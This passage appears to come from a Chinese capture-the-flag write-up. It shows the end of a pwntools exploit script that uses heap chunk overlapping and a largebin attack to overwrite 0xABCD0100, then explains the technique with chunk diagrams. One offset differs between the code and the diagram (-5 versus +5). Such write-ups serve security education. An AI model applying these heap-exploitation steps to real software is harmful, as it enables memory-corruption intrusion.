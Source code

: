 ```python
	delete(2)#trigger unlink(chunk0)	
	add(0x38)#0
	add(0x610)#2  chunk1 is overlaped by chunk2, write chunk1 can also write chunk2
	
	delete(4)
	payload = 'a'*0x510 + p64(0x550)
	edit(5,payload)#alter the P bit of chunk6
	delete(6)
	add(0x38)#4
	add(0x600)#6	chunk5 is overlaped by chunk6, write chunk5 can also write chunk6

	delete(6)#0x610	
	delete(2)#0x620
	
	add(0x610)#2    #chunk6 => largebins
	delete(2)	#chunk2 => unsortedbin
	edit(5,p64(0)+p64(0x611)+p64(0)+p64(0xABCD0100-0x20+8)+p64(0)+p64(0xABCD0100-0x38-5))
	edit(1,p64(0)+p64(0x621)+p64(0)+p64(0xABCD0100-0x20))
	add(0x48)
	edit(2,p64(0)*2+'A'*0x30)	
	p.sendlineafter('Choice: ','666')
	p.sendlineafter('If you can open the lock, I will let you in','A'*0x30)	
	p.interactive()
if __name__ == '__main__':
	pwn()
```



## 0x03 利用分析

### 2 largebin attack

首先通过堆的分配机制，将chunk2变成unsortedbin chunk，将chunk6变成largebin chunk。

```python
	edit(5,p64(0)+p64(0x611)+p64(0)+p64(0xABCD0100-0x20+8)+p64(0)+p64(0xABCD0100-0x38-5))
	edit(1,p64(0)+p64(0x621)+p64(0)+p64(0xABCD0100-0x20))
```

我们首先通过chunk1和chunk5，将unsortedbin chunk和largebin chunk构造成如下形式

```
+-----------------+
|  		  0         |  #unsortedbin chunk (freed chunk2)
+-----------------+
|      0x621 	  	|  
+-----------------+
|        0        |  # fd
+-----------------+
| 0xabcd0100-0x20 |  # bk
+-----------------+

+-------------------+
|  		  0           |  #largebin chunk (freed chunk6)
+-------------------+
|      0x611 	    	|  
+-------------------+
|        0          |  # fd
+-------------------+
| 0xabcd0100-0x20+8 |  # bk
+-------------------+
|        0          |  # fd_next
+-------------------+
| 0xabcd0100-0x38+5 |  # bk_next
```